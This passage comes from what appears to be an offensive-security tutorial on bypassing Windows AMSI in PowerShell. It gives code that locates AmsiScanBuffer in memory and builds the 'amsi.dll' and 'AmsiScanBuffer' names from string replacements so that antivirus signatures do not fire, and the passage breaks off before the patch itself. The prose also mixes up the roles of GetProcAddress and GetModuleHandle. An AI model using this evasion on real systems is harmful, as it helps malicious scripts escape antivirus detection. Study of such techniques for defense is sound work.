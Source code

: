 Next, we need fetch the function address of _AmsiScanBuffer_ in memory
using _GetModuleHandle_  and _GetProcAddress_.

We need to run _GetProcAddress_ on _Amsi.dll_ to get the address of
_Amsi.dll_ in memory and next  _GetModuleHandle_ on _AmsiScanBuffer_ to
get the address of _AmsiScanBuffer_ in memory.

However, we need to be careful here. We don't want to use the strings
_Amsi.dll_ and _AmsiScanbuffer_ as these are AV signatures that will
trigger most AV products. Instead, Vixx recommends some clever string
replacements to build these strings.

Let's search for _AmsiScanBuffer_ in __System.Management.Automation.dll__,
working backwards from _ScanContent_.


This _AmsiScanBuffer_ will be the address that I will search for in
__System.Management.Automation.dll__, working backwards from _ScanContent_.

```
$string = 'hello, world'
$string = $string.replace('he','a')
$string = $string.replace('ll','m')
$string = $string.replace('o,','s')
$string = $string.replace(' ','i')
$string = $string.replace('wo','.d')
$string = $string.replace('rld','ll')

$string2 = 'hello, world'
$string2 = $string2.replace('he','A')
$string2 = $string2.replace('ll','m')
$string2 = $string2.replace('o,','s')
$string2 = $string2.replace(' ','i')
$string2 = $string2.replace('wo','Sc')
$string2 = $string2.replace('rld','an')

$string3 = 'hello, world'
$string3 = $string3.replace('hello','Bu')
$string3 = $string3.replace(', ','ff')
$string3 = $string3.replace('world','er')

$Address = [APIS]::GetModuleHandle($string)
[IntPtr] $funcAddr = [APIS]::GetProcAddress($Address, $string2 + $string3)
```
> Listing {#l:AMSI_fetching_AmsiScanBuffer} - Fetching AmsiScanBuffer Address

Since the _ScanContent_ function is inside _AmsiUtils_ class which is
inside __System.Management.Automation.dll__ I will have to perform a few
steps to find this function in our code.

First, I will loop through the loaded assemblies in PowerShell until we
find the __System.Management.Automation.dll__ assembly.

Next, I will retrieve all the classes inside that assembly and loop through
them until we find the _AmsiUtils_ class.
